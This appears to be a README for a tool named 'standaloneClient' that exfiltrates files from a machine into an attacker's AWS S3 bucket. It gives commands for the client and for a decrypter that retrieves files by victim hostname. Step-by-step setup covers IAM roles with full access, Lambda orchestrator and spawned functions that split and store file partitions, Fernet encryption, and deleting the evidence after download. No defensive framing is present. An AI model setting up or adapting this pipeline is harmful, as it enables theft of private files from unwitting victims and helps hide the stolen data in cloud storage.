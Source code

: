 # standaloneClient
## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

*Line 11*  Modify partition size  
`partitionSize = 100 #Change for desired partition size`  
*Line 42*  Modify Orchestrator function name (Remember it)  
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', 
                                       Payload = orqPayload_json)`  
*Line 85* Modify with AWS Keys  
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
*Line 6*  Modify with the exfiltration bucket name  
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`  

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

*Line 26*  Modify IAM Role ARN  
`Role = '<LAMBDA_S3_IAM_ROLE>'`  
*Line 29*  Modify Template Bucket Name  
`'S3Bucket': '<TEMPLATES_BUCKET>'`  
*Line 30* Modify Compressed function name  
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`  

Increase the timeout of this function to 1 minute and memory to 512MB  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

*Line 7*  Modify fernet key. The key can be generated in a separate script with `Fernet.generate_key()`  
`key = b'<FERNET_KEY>'`  
*Line 23-25*  Modify AWS Tokens and region  
`session = boto3.session.Session(aws_access_key_id = '<AWS_ACCESS_KEY_ID>',
 								aws_secret_access_key = '<AWS_SECRET_ACCESS_KEY_ID>',
 								region_name = 'us-east-2')`  
*Line 31,58,80,82* Modify Exfiltration bucket name  
`31- Bucket = '<EXFILTRATION_BUCKET_NAME>'`  
`58- aws_s3_resource.meta.client.download_file('<EXFILTRATION_BUCKET_NAME>', file, 'downloadedFiles/'+name)'`  
`80- bucket = aws_s3_resource.Bucket('<EXFILTRATION_BUCKET_NAME>')`  
`82- aws_s3_resource.Object('<EXFILTRATION_BUCKET_NAME>', file).delete()`  
